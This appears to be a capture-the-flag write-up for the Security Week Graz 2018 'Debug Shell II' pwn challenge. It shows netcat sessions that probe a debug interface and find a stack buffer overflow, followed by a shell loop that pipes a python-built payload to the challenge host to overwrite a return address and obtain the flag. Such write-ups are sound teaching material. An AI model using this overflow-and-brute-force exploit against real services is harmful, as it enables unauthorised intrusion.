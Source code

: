```yaml
---
layout: post
title: "Security Week Graz 2018: Debug Shell II"
author: sigttou
categories: writeup
tags: [cat/pwn]
---
```


* **Category:** pwn
* **Points:** 80
* **Description:**

> This is another interesting debug interface I've found on an IoT device. Again, I want to have more!
>
> This time, no binary, but this shouldn't stop you, right? 
>
> Connect to `hacklets2.attacking.systems 8004` to get your real flag. 

# Writeup

Okay, no binary, so let's just connect to the given port and see what it gives us:

```
user@host$ nc hacklets2.attacking.systems 8004
$> help
quit - exit the shell
shell - spawn shell
print <text> - echo the given text
check - dump firmware for self check
$>
```

Nice, there's some `shell`:
```
$> shell
Sorry, shell is only enabled in debug build (0x216e7770)
```

Unlucky us, but what is `0x216e7770`, turning that in a string bytewise is `!nwp`, which is `pwn!` reversed.

Makes, sense. we need to pwn this challenge!

Next, what do other commands give us:

```
$> print
(null)$> print %x 
%x
$> print hi
hi
$> check
/* some skipped binary gibberish*/
$> quit
user@host$
```

Okay, so there's no format string attack possible... `check` gives us the firmware image. let's fetch it and start reversing the returned blob with cutter or radare! 

But first, let's run a 101 buffer overflow check:

```
$> print aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
user@host$
```

Strange, is there an overflow causing the crash? Let's find out how large the buffer is:

```
user@host$ nc hacklets2.attacking.systems 8004
$> print aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$> print aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$> print aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
user@host$
```

Could have been automated, but for such short tryings, who cares. So what happens here?

Probably the last a overwrites some address on the stack and therefore kills executions. return addresses are placed on the stack too. So to put the address from the `shell` call on the stack we would need to add `pwn!`.

We again try bruteforcing before actually caring about disassembling the blob:

```
user@host$ for i in $(seq 1 16); do python -c "print 69*'a'+$i*'a'+'pwn!'+'\nquit'" | nc hacklets2.attacking.systems 8004; done
$> $> Bye!
$> $> $> $> $> $> $> $> $> $> {I_L1K3_ASCII_ADDR3SS3S!}
$> $> $> $> $> user@host$
```

So, here we go, simple buffer overflow and a nice set function at `0x216e7770`, no real reversing needed! nice!

